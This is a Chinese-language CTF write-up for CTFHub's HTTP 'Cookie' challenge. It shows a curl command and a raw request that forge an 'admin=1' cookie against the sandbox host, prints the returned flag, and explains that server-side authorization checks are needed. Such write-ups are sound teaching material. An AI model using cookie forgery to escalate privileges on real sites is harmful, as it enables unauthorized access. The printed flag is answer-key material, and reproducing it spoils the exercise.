

# WP：Cookie（HTTP 协议）

## 一、题目信息

- **题目名称**：Cookie
- **CTFHub 路径**：Web 前置技能 → HTTP 协议 → Cookie
- **考察点**：服务端用 Cookie 里的某个字段（如 `admin=0`）判断是否放行；伪造该字段即可越权拿到 flag。
- **靶场地址**：http://challenge-b9f4c3fa69af689d.sandbox.ctfhub.com:10800

## 二、解题过程

- **我看到了什么**：普通访问靶场根路径时，提示"权限不足"之类的信息，响应/页面暗示权限由客户端 Cookie 决定。
- **我做了什么**：用 `curl -b "admin=1"` 在请求里带上伪造的管理员 Cookie 重新访问；也可以用 Burp Repeater 直接修改请求头的 `Cookie: admin=1` 后重放。
- **结果是什么**：带上正确的 `admin=1` Cookie 后，响应体返回 `ctfhub{...}` 形式的 flag（状态码 200），提交后平台提示正确。

**思路与可参考的命令（在 Kali 终端 / curl 或浏览器 DevTools 中完成）**：

```bash
# 带上伪造的 Cookie 重新请求
curl -b "admin=1" http://challenge-b9f4c3fa69af689d.sandbox.ctfhub.com:10800/
```

## 三、关键请求 / 响应

```
GET / HTTP/1.1
Host: challenge-b9f4c3fa69af689d.sandbox.ctfhub.com:10800
Cookie: admin=1
User-Agent: curl/8.x

HTTP/1.1 200 OK
Content-Type: text/html

ctfhub{6f48b9706574da4243063d7b}
```

flag 提交：ctfhub{6f48b9706574da4243063d7b}

## 四、原理与复盘

Cookie 存放在客户端，每次请求由浏览器自动带上。该题目把"是否为管理员"这样的权限判断只放在客户端 Cookie（`admin=0`）里，攻击者改个值就能伪造身份。对应 HTTP 报文位置是 **请求头（Cookie）**。教训：权限/身份判断必须放在服务端校验，不能信任客户端传来的任何字段。

## 五、解题截图


